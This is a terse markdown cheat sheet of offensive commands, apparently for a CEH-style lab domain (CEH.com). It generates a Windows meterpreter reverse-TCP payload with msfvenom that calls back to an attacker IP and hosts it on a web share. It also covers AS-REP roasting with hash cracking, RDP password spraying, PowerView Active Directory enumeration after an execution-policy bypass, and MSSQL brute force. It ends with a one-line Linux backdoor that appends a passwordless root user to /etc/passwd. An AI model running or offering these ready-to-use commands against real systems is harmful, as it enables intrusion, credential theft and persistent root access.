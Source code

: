 ## Reverse Shell Generator
docker run -d -p 80:80 reverse_shell_generator 

 ## Payload for windows
 msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Windows.exe

 ### Windows hosting web file
 Run mkdir /var/www/html/share command to create a shared folder
Run chmod -R 755 /var/www/html/share command
Run chown -R www-data:www-data /var/www/html/share command


## Kerberos AS-REP Roasting

Execute the command python3 GetNPUsers.py CEH.com/ -no-pass -usersfile /root/ADtools/users.txt -dc-ip 10.10.1.22.

GetNPUsers.py: Python script to retrieve AD user information.

CEH.com/: Target AD domain.

-no-pass: Flag to find user accounts not requiring pre-authentication.

-usersfile ~/ADtools/users.txt: Path to the file with the user account list.

-dc-ip 10.10.1.22: IP address of the DC to query.


 john --wordlist=/root/ADtools/rockyou.txt joshuahash.txt

 ## Password Spraying

 cme rdp 10.10.1.0/24 -u /root/ADtools/users.txt -p "cupcake"

 ## Post-Enumeration Using PowerView

 powershell -EP Bypass to enable script execution

 Now, execute the command . .\PowerView.ps1 to load the PowerView.ps1 script in PowerShell.

Get-NetComputer command in PowerShell. This command will display all the information related to computers in AD. It lists all computer objects in AD, which can help in identifying network targets and mapping the AD environment.
Now, execute Get-NetGroup in PowerShell. The Get-NetGroup command in PowerView lists all groups in AD, which helps in identifying group memberships and potential targets for privilege escalation.
xecute command Get-NetUser in PowerShell. Get-NetUser in PowerView retrieves detailed information about AD user accounts, such as usernames and group memberships. It helps identify potential targets and understand the AD environment better.
Here are some other listed commands that you can use with PowerView.ps1 for enumeration:

Get-NetOU - Lists all organizational units (OUs) in the domain.
Get-NetSession - Lists active sessions on the domain.
Get-NetLoggedon - Lists users currently logged on to machines.
Get-NetProcess - Lists processes running on domain machines.
Get-NetService - Lists services on domain machines.
Get-NetDomainTrust - Lists domain trust relationships.
Get-ObjectACL - Retrieves ACLs for a specified object.
Find-InterestingDomainAcl - Finds interesting ACLs in the domain.
Get-NetSPN - Lists service principal names (SPNs) in the domain.
Invoke-ShareFinder - Finds shared folders in the domain.
Invoke-UserHunter - Finds where domain admins are logged in.
Invoke-CheckLocalAdminAccess - Checks if the current user has local admin access on specified machines.

 ## Attacking MSSQL Service

 python3 /root/impacket/examples/mssqlclient.py CEH.com/SQL_srv:batman@10.10.1.30 -port 1433.

hydra -L user.txt -P /root/ADtools/rockyou.txt 10.10.1.30 mssql
Save the username SQL_srv in a text file and name it as user.txt using command pluma user.txt.


# Linuc Privilege Escalation

## add user locally with root privileges
echo 'haxor::0:0:root:/root:/bin/bash' >> /etc/passwd 

## suid permission
find / -perm -4000 -type f 2>/dev/null


